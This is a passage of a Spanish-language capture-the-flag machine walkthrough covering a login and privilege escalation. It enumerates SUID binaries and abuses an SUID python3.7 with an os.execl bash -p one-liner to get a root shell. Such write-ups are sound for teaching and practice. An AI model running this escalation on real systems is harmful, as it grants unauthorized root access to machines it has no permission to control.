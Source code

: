Metemos como contraseña `chocolate` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
931973     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   949765   3128 -rwsr-xr-x   2 root     root      3201864 Jul 21  2020 /usr/bin/perl
   931882     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
   931879     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   931984     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   949765   3128 -rwsr-xr-x   2 root     root      3201864 Jul 21  2020 /usr/bin/perl5.28.1
   931929     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   956522   4760 -rwsr-xr-x   2 root     root      4874240 Mar 23  2024 /usr/bin/python3.7m
   956522   4760 -rwsr-xr-x   2 root     root      4874240 Mar 23  2024 /usr/bin/python3.7
   949829    428 -rwsr-xr-x   1 root     root       436552 Dec 24  2023 /usr/lib/openssh/ssh-keysign
   949817     52 -rwsr-xr--   1 root     messagebus    51184 Oct 23  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   931356     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /bin/umount
   931350     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /bin/su
   931331     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /bin/mount
   931336     64 -rwsr-xr-x   1 root     root          65272 Aug  3  2018 /bin/ping
```

Vemos varias cosas interesantes, pero entre ellas la mas importante:

```
956522  4760 -rwsr-xr-x   2 root  root  4874240 Mar 23  2024 /usr/bin/python3.7
```

Por lo que haremos lo siguiente:

```shell
python3.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.0# whoami
root
```

Con esto veremos que ya seremos el usuario `root`, por lo que habremos terminado la maquina.
